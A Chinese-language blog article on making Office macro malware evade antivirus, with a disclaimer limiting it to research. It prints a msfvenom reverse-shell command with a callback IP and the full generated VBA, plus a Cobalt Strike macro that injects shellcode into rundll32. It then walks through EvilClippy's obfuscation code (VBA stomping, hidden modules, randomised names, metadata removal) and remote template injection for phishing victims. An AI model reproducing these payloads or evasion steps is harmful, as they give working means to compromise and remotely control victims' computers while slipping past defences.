宏免杀分析
本文所述的一切技术仅供网络安全研究学习之用，请勿用于任何的违法用途，否则由此所产生的一切后果自负！
宏病毒攻击方式的分析与研究
在目前的APT攻防对抗中，宏病毒作为钓鱼的主要技术支撑手段，在打点过程中起到了关键性的作用，不过随着宏病毒的泛滥，各大杀软厂商也相应地采取措施进行查杀，宏免杀技术也应运而生。从早期mht只需修改后缀就能执行的方式，到现在的各种混淆，远程加载等方式，对抗手段不断更新升级。本文就来简要分析一下目前主要的攻击方式实现原理。
什么是宏病毒
宏病毒是一种寄存在文档或模板的宏中的计算机病毒。一旦打开这样的文档，其中的宏就会被执行，于是宏病毒就会被激活，转移到计算机上，并驻留在Normal模板上。从此以后，所有自动保存的文档都会“感染”上这种宏病毒，而且如果其他用户打开了感染病毒的文档，宏病毒又会转移到他的计算机上。
宏病毒的危害
主要是感染文档，最早期的简单宏病毒目的只是让受害者无法打开文档，无法打印文档等，不过随着对抗手段的升级，目前的宏病毒主要以控制受害者电脑，获取到shell为目的，危害极大。
宏病毒的生成
MSF生成宏
MSF作为主流渗透测试框架，功能多样，生成宏病毒自然不在话下。MSF通过msfvenom实现，示例命令如下：
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.12.129 lport=4444 -f vba -o msf.vba
宏的内容如下：
#If Vba7 Then
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Ffqss As Long, ByVal Ggwnuq As Long, ByVal Iifiex As LongPtr, Gksky As Long, ByVal Hlnyst As Long, Kmko As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Vnbsa As Long, ByVal Xkoptrnhw As Long, ByVal Kghlzh As Long, ByVal Lppdd As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Ztmgrm As LongPtr, ByRef Dnywi As Any, ByVal Zpxn As Long) As LongPtr
#Else
Private Declare Function CreateThread Lib "kernel32" (ByVal Ffqss As Long, ByVal Ggwnuq As Long, ByVal Iifiex As Long, Gksky As Long, ByVal Hlnyst As Long, Kmko As Long) As Long
Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Vnbsa As Long, ByVal Xkoptrnhw As Long, ByVal Kghlzh As Long, ByVal Lppdd As Long) As Long
Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Ztmgrm As Long, ByRef Dnywi As Any, ByVal Zpxn As Long) As Long
#EndIf
Sub Auto_Open()
Dim Ltw As Long, Eso As Variant, Ytpg As Long
#If Vba7 Then
Dim Tpgwi As LongPtr, Ivlfxyv As LongPtr
#Else
Dim Tpgwi As Long, Ivlfxyv As Long
#EndIf
Eso = Array(232,130,0,0,0,96,137,229,49,192,100,139,80,48,139,82,12,139,82,20,139,114,40,15,183,74,38,49,255,172,60,97,124,2,44,32,193,207,13,1,199,226,242,82,87,139,82,16,139,74,60,139,76,17,120,227,72,1,209,81,139,89,32,1,211,139,73,24,227,58,73,139,52,139,1,214,49,255,172,193, _
207,13,1,199,56,224,117,246,3,125,248,59,125,36,117,228,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4,139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,95,95,90,139,18,235,141,93,104,51,50,0,0,104,119,115,50,95,84,104,76,119,38,7,137,232,255,208,184,144,1,0, _
0,41,196,84,80,104,41,128,107,0,255,213,106,10,104,172,16,12,129,104,2,0,17,92,137,230,80,80,80,80,64,80,64,80,104,234,15,223,224,255,213,151,106,16,86,87,104,153,165,116,97,255,213,133,192,116,10,255,78,8,117,236,232,103,0,0,0,106,0,106,4,86,87,104,2,217,200,95,255,213, _
131,248,0,126,54,139,54,106,64,104,0,16,0,0,86,106,0,104,88,164,83,229,255,213,147,83,106,0,86,83,87,104,2,217,200,95,255,213,131,248,0,125,40,88,104,0,64,0,0,106,0,80,104,11,47,15,48,255,213,87,104,117,110,77,97,255,213,94,94,255,12,36,15,133,112,255,255,255,233,155, _
255,255,255,1,195,41,198,117,193,195,187,240,181,162,86,106,0,83,255,213)
Tpgwi = VirtualAlloc(0, UBound(Eso), &H1000, &H40)
For Ytpg = LBound(Eso) To UBound(Eso)
Ltw = Eso(Ytpg)
Ivlfxyv = RtlMoveMemory(Tpgwi + Ytpg, Ltw, 1)
Next Ytpg
Ivlfxyv = CreateThread(0, 0, Tpgwi, 0, 0, 0)
End Sub
Sub AutoOpen()
Auto_Open
End Sub
Sub Workbook_Open()
Auto_Open
End Sub
使用msf进行监听，之后在word中运行宏即可获得shell

直接以docm形式保存，不做任何处理时该病毒在线扫描结果如下，报毒率为（38/66）：

以doc形式保存时更高(40/64):

CobaltStrike宏生成
通过Attacks>Packages>MS Office Macro进行生成，生成后的代码如下：
Private Type PROCESS_INFORMATION
hProcess As Long
hThread As Long
dwProcessId As Long
dwThreadId As Long
End Type
Private Type STARTUPINFO
cb As Long
lpReserved As String
lpDesktop As String
lpTitle As String
dwX As Long
dwY As Long
dwXSize As Long
dwYSize As Long
dwXCountChars As Long
dwYCountChars As Long
dwFillAttribute As Long
dwFlags As Long
wShowWindow As Integer
cbReserved2 As Integer
lpReserved2 As Long
hStdInput As Long
hStdOutput As Long
hStdError As Long
End Type
#If VBA7 Then
Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If
Sub Auto_Open()
Dim myByte As Long, myArray As Variant, offset As Long
Dim pInfo As PROCESS_INFORMATION
Dim sInfo As STARTUPINFO
Dim sNull As String
Dim sProc As String
#If VBA7 Then
Dim rwxpage As LongPtr, res As LongPtr
#Else
Dim rwxpage As Long, res As Long
#End If
myArray = Array(-4, -24, -119, 0, 0, 0, 96, -119, -27, 49, -46, 100, -117, 82, 48, -117, 82, 12, -117, 82, 20, -117, 114, 40, 15, -73, 74, 38, 49, -1, 49, -64, -84, _
60, 97, 124, 2, 44, 32, -63, -49, 13, 1, -57, -30, -16, 82, 87, -117, 82, 16, -117, 66, 60, 1, -48, -117, 64, 120, -123, -64, 116, 74, 1, -48, _
80, -117, 72, 24, -117, 88, 32, 1, -45, -29, 60, 73, -117, 52, -117, 1, -42, 49, -1, 49, -64, -84, -63, -49, 13, 1, -57, 56, -32, 117, -12, 3, _
125, -8, 59, 125, 36, 117, -30, 88, -117, 88, 36, 1, -45, 102, -117, 12, 75, -117, 88, 28, 1, -45, -117, 4, -117, 1, -48, -119, 68, 36, 36, 91, _
91, 97, 89, 90, 81, -1, -32, 88, 95, 90, -117, 18, -21, -122, 93, 104, 110, 101, 116, 0, 104, 119, 105, 110, 105, 84, 104, 76, 119, 38, 7, -1, _
-43, -24, -128, 0, 0, 0, 77, 111, 122, 105, 108, 108, 97, 47, 53, 46, 48, 32, 40, 99, 111, 109, 112, 97, 116, 105, 98, 108, 101, 59, 32, 77, _
83, 73, 69, 32, 57, 46, 48, 59, 32, 87, 105, 110, 100, 111, 119, 115, 32, 78, 84, 32, 54, 46, 49, 59, 32, 87, 79, 87, 54, 52, 59, 32, _
84, 114, 105, 100, 101, 110, 116, 47, 53, 46, 48, 59, 32, 66, 79, 73, 69, 57, 59, 69, 78, 85, 83, 83, 69, 77, 41, 0, 88, 88, 88, 88, _
88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, 88, _
88, 88, 88, 88, 88, 0, 89, 49, -1, 87, 87, 87, 87, 81, 104, 58, 86, 121, -89, -1, -43, -21, 121, 91, 49, -55, 81, 81, 106, 3, 81, 81, _
104, 92, 17, 0, 0, 83, 80, 104, 87, -119, -97, -58, -1, -43, -21, 98, 89, 49, -46, 82, 104, 0, 2, 96, -124, 82, 82, 82, 81, 82, 80, 104, _
-21, 85, 46, 59, -1, -43, -119, -58, 49, -1, 87, 87, 87, 87, 86, 104, 45, 6, 24, 123, -1, -43, -123, -64, 116, 68, 49, -1, -123, -10, 116, 4, _
-119, -7, -21, 9, 104, -86, -59, -30, 93, -1, -43, -119, -63, 104, 69, 33, 94, 49, -1, -43, 49, -1, 87, 106, 7, 81, 86, 80, 104, -73, 87, -32, _
11, -1, -43, -65, 0, 47, 0, 0, 57, -57, 116, -68, 49, -1, -21, 21, -21, 73, -24, -103, -1, -1, -1, 47, 109, 97, 77, 65, 0, 0, 104, -16, _
-75, -94, 86, -1, -43, 106, 64, 104, 0, 16, 0, 0, 104, 0, 0, 64, 0, 87, 104, 88, -92, 83, -27, -1, -43, -109, 83, 83, -119, -25, 87, 104, _
0, 32, 0, 0, 83, 86, 104, 18, -106, -119, -30, -1, -43, -123, -64, 116, -51, -117, 7, 1, -61, -123, -64, 117, -27, 88, -61, -24, 55, -1, -1, -1, _
49, 55, 50, 46, 49, 54, 46, 49, 50, 46, 49, 50, 57, 0)
If Len(Environ("ProgramW6432")) > 0 Then
sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
Else
sProc = Environ("windir") & "\\System32\\rundll32.exe"
End If
res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)
rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
For offset = LBound(myArray) To UBound(myArray)
myByte = myArray(offset)
res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
Next offset
res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
Auto_Open
End Sub
Sub Workbook_Open()
Auto_Open
End Sub
使用宏在word中运行后即可在CS中获取到shell

直接以docm形式保存，不做任何处理时该病毒在线扫描结果如下，报毒率为41/66：

以doc保存时（42/64）

常见免杀方式剖析
EvilClippy
根据资料来看，通过混淆的方式绕过杀软还是非常有效的，最常见的混淆工具为evilclippy，工具地址为：https://github.com/outflanknl/EvilClippy
代码分析
该工具于2019年3月在BlackHat大会上发布，主要组成如下：

先gitclone下来看看源码，从主程序开始分析。
程序的引用如下：
using System;
using OpenMcdf;
using System.Text;
using System.Collections.Generic;
using Kavod.Vba.Compression;
using System.Linq;
using NDesk.Options;
using System.Net;
using System.Threading;
using System.IO;
using System.IO.Compression;
using System.Text.RegularExpressions;
using System.Collections;
首先对引用进行分析，除去C#中常见的固有组件，剩下的引用主要为OpenMcdf，Kavod.Vba.Compression，NDesk.Options
其中Openmcdf为结构化储存的.NET组件，其GitHub上仓库地址如下：
https://github.com/ironfede/openmcdf
该库允许用户对符合的文档进行操作，例如创建新文件，打开存在的文件并调用其中的流数据添加数据并进行储存等。
Kavod.Vba.Compression是一款用于压缩MS Office中的VBA脚本的C#程序，其GitHub仓库地址如下：
https://github.com/rossknudsen/Kavod.Vba.Compression#kavodvbacompression
NDesk.Options是基于回调对C#中的一些集合初始化器等提供简洁的解析规范的组件，目前支持VS2008-2017，Github仓库地址如下：
https://github.com/Latency/NDesk.Options
接下来分析主要代码，其中一共三个公共类
MSOfficeManipulator，ModuleInformation，WebServer
从命名上来看比较规范，功能也较为容易理解，分别是对Office的操作，模块的信息读写还有web服务器访问。
其中的代码注释也写得非常详细，几乎是看一眼就能看懂。

我们主要来看其中的主要文件处理部分，首先通过如下代码实现文件流的读取
CFStorage commonStorage = cf.RootStorage; // docm or xlsm
if (cf.RootStorage.TryGetStorage("Macros") != null) commonStorage = cf.RootStorage.GetStorage("Macros"); // .doc
if (cf.RootStorage.TryGetStorage("_VBA_PROJECT_CUR") != null) commonStorage = cf.RootStorage.GetStorage("_VBA_PROJECT_CUR"); // xls
vbaProjectStream = commonStorage.GetStorage("VBA").GetStream("_VBA_PROJECT").GetData();
projectStream = commonStorage.GetStream("project").GetData();
projectwmStream = commonStorage.GetStream("projectwm").GetData();
dirStream = Decompress(commonStorage.GetStorage("VBA").GetStream("dir").GetData());
读取后将流转换为string格式
string projectStreamString = System.Text.Encoding.UTF8.GetString(projectStream);
string projectwmStreamString = System.Text.Encoding.UTF8.GetString(projectwmStream);
对文件中所有的VBA模块进行查找
List<ModuleInformation> vbaModules = ParseModulesFromDirStream(dirStream);
替换VBA流中的Office版本信息
if (targetOfficeVersion != "")
{
ReplaceOfficeVersionInVBAProject(vbaProjectStream, targetOfficeVersion);
commonStorage.GetStorage("VBA").GetStream("_VBA_PROJECT").SetData(vbaProjectStream);
}
将ProjectProtectionState和ProjectVisibilityState设置为锁定/不可见(这就是隐藏自身的一种手段了，不过该选项可由用户设置，同理下面还有可见和不锁定的设置)
if (optionUnviewableVBA)
{
string tmpStr = Regex.Replace(projectStreamString, "CMG=\".*\"", "CMG=\"\"");
string newProjectStreamString = Regex.Replace(tmpStr ,"GC=\".*\"", "GC=\"\"" );
commonStorage.GetStream("project").SetData(Encoding.UTF8.GetBytes(newProjectStreamString));
}
其中ProjectProtectionState在官方文档中给出的解释为Specifies whether access to the VBA project was restricted by the user, the VBA host application, or the VBA project editor.即限制用户，VBA主机程序以及VBA编辑器对特定项目的访问。ProjectVisibilityState则为项目的可见性。
还有在GUI中隐藏模块的代码：
if (optionHideInGUI)
{
foreach (var vbaModule in vbaModules)
{
if ((vbaModule.moduleName != "ThisDocument") && (vbaModule.moduleName != "ThisWorkbook"))
{
Console.WriteLine("Hiding module: " + vbaModule.moduleName);
projectStreamString = projectStreamString.Replace("Module=" + vbaModule.moduleName, "");
}
}
commonStorage.GetStream("project").SetData(Encoding.UTF8.GetBytes(projectStreamString));
}
另外，脚本会通过VBA stomp的方式来隐藏一些特征，VBA Stomp会销毁源码而只在文档中留下编译后的代码
if (VBASourceFileName != "")
{
byte[] streamBytes;
foreach (var vbaModule in vbaModules)
{
DebugLog("VBA module name: " + vbaModule.moduleName + "\nOffset for code: " + vbaModule.textOffset);
if (targetModules.Contains(vbaModule.moduleName) || !targetModules.Any())
{
Console.WriteLine("Now stomping VBA code in module: " + vbaModule.moduleName);
streamBytes = commonStorage.GetStorage("VBA").GetStream(vbaModule.moduleName).GetData();
DebugLog("Existing VBA source:\n" + GetVBATextFromModuleStream(streamBytes, vbaModule.textOffset));
string newVBACode = "";
if (VBASourceFileName != "")
{
try
{
newVBACode = System.IO.File.ReadAllText(VBASourceFileName);
}
catch (Exception e)
{
Console.WriteLine("ERROR: Could not open VBA source file " + VBASourceFileName);
Console.WriteLine("Please make sure this file exists and contains ASCII only characters.");
Console.WriteLine();
Console.WriteLine(e.Message);
return;
}
}
DebugLog("Replacing with VBA code:\n" + newVBACode);
streamBytes = ReplaceVBATextInModuleStream(streamBytes, vbaModule.textOffset, newVBACode);
DebugLog("Hex dump of VBA module stream " + vbaModule.moduleName + ":\n" + Utils.HexDump(streamBytes)); commonStorage.GetStorage("VBA").GetStream(vbaModule.moduleName).SetData(streamBytes);
}
}
}
同时，里面还包含了相关的对地址流进行操作的代码，程序会在地址流中给模块名随机赋ASCII名同时完整保留unicode名称
if (optionSetRandomNames)
{
Console.WriteLine("Setting random ASCII names for VBA modules in dir stream (while leaving unicode names intact).");
// Recompress and write to dir stream
commonStorage.GetStorage("VBA").GetStream("dir").SetData(Compress(SetRandomNamesInDirStream(dirStream)));
}
以下为删除文件中的元数据部分的代码，用于清楚元数据使恶意标识不被轻易发现
if (optionDeleteMetadata)
{
try
{
cf.RootStorage.Delete("\u0005SummaryInformation");
}
catch (Exception e)
{
Console.WriteLine("ERROR: metadata stream does not exist (option ignored)");
DebugLog(e.Message);
}
}
再来看看对地址流的操作，结合之前的随机赋值操作，通过偏移的方式提升寻址的难度，作者还在其中注释控诉了微软的某些愚蠢行为，无法理解一些格式…
private static byte[] SetRandomNamesInDirStream(byte[] dirStream)
{
// 2.3.4.2 dir Stream: Version Independent Project Information
// https://msdn.microsoft.com/en-us/library/dd906362(v=office.12).aspx
// Dir stream is ALWAYS in little endian
int offset = 0;
UInt16 tag;
UInt32 wLength;
while (offset < dirStream.Length)
{
tag = GetWord(dirStream, offset);
wLength = GetDoubleWord(dirStream, offset + 2);
// The following idiocy is because Microsoft can't stick to their own format specification - taken from Pcodedmp
if (tag == 9)
wLength = 6;
else if (tag == 3)
wLength = 2;
switch (tag)
{
case 26: // 2.3.4.2.3.2.3 MODULESTREAMNAME Record
System.Text.UTF8Encoding encoding = new System.Text.UTF8Encoding();
encoding.GetBytes(Utils.RandomString((int)wLength), 0, (int)wLength, dirStream, (int)offset + 6);
break;
}
offset += 6;
offset += (int)wLength;
}
return dirStream;
}
为了防止找不到对应的模块，在后面自然也有解析的代码：
private static List<ModuleInformation> ParseModulesFromDirStream(byte[] dirStream)
{
// 2.3.4.2 dir Stream: Version Independent Project Information
// https://msdn.microsoft.com/en-us/library/dd906362(v=office.12).aspx
// Dir stream is ALWAYS in little endian
List<ModuleInformation> modules = new List<ModuleInformation>();
int offset = 0;
UInt16 tag;
UInt32 wLength;
ModuleInformation currentModule = new ModuleInformation { moduleName = "", textOffset = 0 };
while (offset < dirStream.Length)
{
tag = GetWord(dirStream, offset);
wLength = GetDoubleWord(dirStream, offset + 2);
// The following idiocy is because Microsoft can't stick to their own format specification - taken from Pcodedmp
if (tag == 9)
wLength = 6;
else if (tag == 3)
wLength = 2;
switch (tag)
{
case 26: // 2.3.4.2.3.2.3 MODULESTREAMNAME Record
currentModule.moduleName = System.Text.Encoding.UTF8.GetString(dirStream, (int)offset + 6, (int)wLength);
break;
case 49: // 2.3.4.2.3.2.5 MODULEOFFSET Record
currentModule.textOffset = GetDoubleWord(dirStream, offset + 6);
modules.Add(currentModule);
currentModule = new ModuleInformation { moduleName = "", textOffset = 0 };
break;
}
offset += 6;
offset += (int)wLength;
}
return modules;
}
在web server类中就是启动HTTP服务器进行监听，这个服务器的功能不是获取回连的shell，而只是用于VBA stomping，它会自动匹配目标的Office版本（使用其HTTP标头，然后相应地设置_VBA_PROJECT字节）
public class WebServer
{
private readonly HttpListener _listener = new HttpListener();
private readonly Func<HttpListenerRequest, byte[]> _responderMethod;
public WebServer(Func<HttpListenerRequest, byte[]> method, params string[] prefixes)
{
if (!HttpListener.IsSupported)
throw new NotSupportedException("Needs Windows XP SP2, Server 2003 or later.");
// URI prefixes are required, for example "http://localhost:8080/index/".
if (prefixes == null || prefixes.Length == 0)
throw new ArgumentException("prefixes");
// A responder method is required
if (method == null)
throw new ArgumentException("method");
foreach (string s in prefixes)
_listener.Prefixes.Add(s);
_responderMethod = method;
_listener.Start();
}
public void Run()
{
ThreadPool.QueueUserWorkItem((o) =>
{
Console.WriteLine("Webserver running...");
try
{
while (_listener.IsListening)
{
ThreadPool.QueueUserWorkItem((c) =>
{
var ctx = c as HttpListenerContext;
try
{
byte[] buf = _responderMethod(ctx.Request);
ctx.Response.ContentLength64 = buf.Length;
ctx.Response.OutputStream.Write(buf, 0, buf.Length);
}
catch { } // suppress any exceptions
finally
{
// always close the stream
ctx.Response.OutputStream.Close();
}
}, _listener.GetContext());
}
}
catch { } // suppress any exceptions
});
}
public void Stop()
{
_listener.Stop();
_listener.Close();
}
}
功能演示
在进行免杀操作时常用-s参数，通过加载一个其他正常脚本来混淆，避免被杀软直接识别到，因此我们准备一个正常脚本，然后执行命令
EvilClippy.exe -s novirus.vba Doc1.doc
此时可以发现两个文档的检出率都大大降低


再加入了随机地址后规避了一款扫描器的识别，跟据官方文档的描述，此举在欺骗pcodedmp 和 VirusTotal 时非常有效

此外，在官方文档中，我们可以看到加入-g参数来隐藏GUI，之后的文档在试图编辑宏时会直接闪退，以下为演示录屏：

而在-u参数锁定时则打开后无法编辑，显示工程被锁定：

远程加载
远程加载作为一种较为有效的上线方式，通常可以绕过大部分杀软的查杀，首先讲一下基础的远程加载上线过程。
word直接远程调用
首先还是通过cs生成宏病毒保存成模板y1.dotm，将模板上传到公网能访问的地址，确保可以直接访问

之后在本地新建文件，加载一个默认office模板后保存为正常的DOCX，由于新版本的office中的docx其实是一个压缩包，作为一个CTF选手看过文件头都会发现和ZIP文件头完全一样，因此我们通过修改后缀的方式进行解压
之后再其中目录下的word>_rels>settings.xml.rels中进行修改，将原本的模板地址改为我们的远程地址

之后再重新压缩，保存为docx文档后投放到目标机，加载的时候会有一个一闪而逝的下载过程，不过大部分人不会注意
之后还是诱导点击，启用宏，即可再CS中实现上线

可以看到在bypass AV时的能力还是非常优秀的
